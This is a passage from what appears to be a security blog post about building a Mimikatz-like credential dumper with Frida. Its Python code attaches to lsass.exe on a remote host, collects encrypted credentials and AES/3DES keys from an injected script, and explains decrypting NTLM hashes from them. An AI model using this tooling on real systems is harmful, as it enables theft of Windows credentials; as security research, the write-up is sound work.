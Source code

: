 There are a few parts of our Python script that are especially important. Here is the part where we actually attach the script to *lsass.exe*:

```python
fd = open("MimiScan.js", "r")
inject_script = fd.read()
fd.close()

target = sys.argv[1] + ":27042"
device = frida.get_device_manager().add_remote_device(target)

session = device.attach("lsass.exe")
script = session.create_script(inject_script)
```

Once we have attached, we need to create a hook that will receive and process messages sent to it by the injected script:

```python
def on_message(message, data):
	if "payload" not in message:
		return
	payload = message["payload"]
	if payload["type"] == "credentials":
		credential = {}
		credential["domain"] = payload["domain"]
		credential["username"] = payload["username"]
		credential["crypto"] = data
		credentials.append(credential)
	if payload["type"] == "aeskey":
		keys["aes"] = data
	if payload["type"] == "aes_iv":
		keys["aes_iv"] = data
	if payload["type"] == "3deskey":
		keys["3des"] = data

script.on('message', on_message)
script.load()
```

Once you have the actual data, it's just a matter of performing the decryption and parsing out the important bits (the NTLM hash) from the resulting plaintext. This takes a little work, but it's nothing too complicated. Here's how the completed Python script looks in action:

![A screenshot of the output from the final version of MimiScan.py](/img/mimiscan-decrypted.png)

And with that, we've created a basic Mimikatz-alike written almost entirely in Frida! You can find the full script, and all of the code associated with this project, [here](https://github.com/ofasgard/mimiscan/tree/blog). 

## Conclusion

My original aim was to illustrate that you can emulate the functionality of Mimikatz entirely within Frida's engine, and I think I've done that. Some of the more heavy-duty tasks, like 3DES decryption, are just not feasible to implement in JavaScript - but Frida's Python bindings are able to step up and fill the gaps when that's the case.
